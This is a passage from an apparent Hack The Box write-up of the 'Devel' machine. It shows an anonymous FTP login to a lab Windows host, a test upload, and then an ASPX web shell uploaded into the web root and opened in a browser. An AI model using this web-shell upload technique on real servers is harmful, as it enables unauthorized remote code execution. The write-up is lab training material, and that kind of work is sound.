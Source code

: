 We can see the `welcome.png` on the website which is uploaded on the machine via ftp. It indicates that we can able to upload files to trigger RCE (Remote Code Execution) on the machine. Remote Code Execution is a vulnerability when an attacker puts some input to a file and executes it. It leads to full compromise of target machine.

We can upload a test file to the machine to check whether we can able to upload any file or not.

```bash
ftp 10.129.152.23
 Connected to 10.129.152.23.
 220 Microsoft FTP Service
 Name (10.129.152.23:root): anonymous
 331 Anonymous access allowed, send identity (e-mail name) as password.
 Password:
 230 User logged in.
 Remote system type is Windows_NT.
 ftp> put testh4x.txt 
 local: testh4x.txt remote: testh4x.txt
 200 PORT command successful.
 125 Data connection already open; Transfer starting.
 226 Transfer complete.
 32 bytes sent in 0.00 secs (1.0523 MB/s)
 ```

## Exploitation (Without Metasploit)

### FTP Exploitation (File Upload)

We successfully uploaded our test file to the machine. Now, we can upload a simple web shell to the machine. If you search for web shells on Google, you will get tons of shells. I like to use web shell from [__SecLists__](https://github.com/danielmiessler/SecLists){:target="_blank"}. Later on we will visit to <ip address>/cmd.aspx.

```bash
ftp 10.129.152.23
 Connected to 10.129.152.23.
 220 Microsoft FTP Service
 Name (10.129.152.23:root): anonymous
 Password:
 230 User logged in.
 Remote system type is Windows_NT.
 ftp> put cmd.aspx 
 local: cmd.aspx remote: cmd.aspx
 200 PORT command successful.
 125 Data connection already open; Transfer starting.
 226 Transfer complete.
 1442 bytes sent in 0.00 secs (31.2545 MB/s)
```

Now I will visit http://10.129.152.23/cmd.aspx. and I get a form.

![Web Shell](/assets/images/writeups/Devel-HTB/4.png)
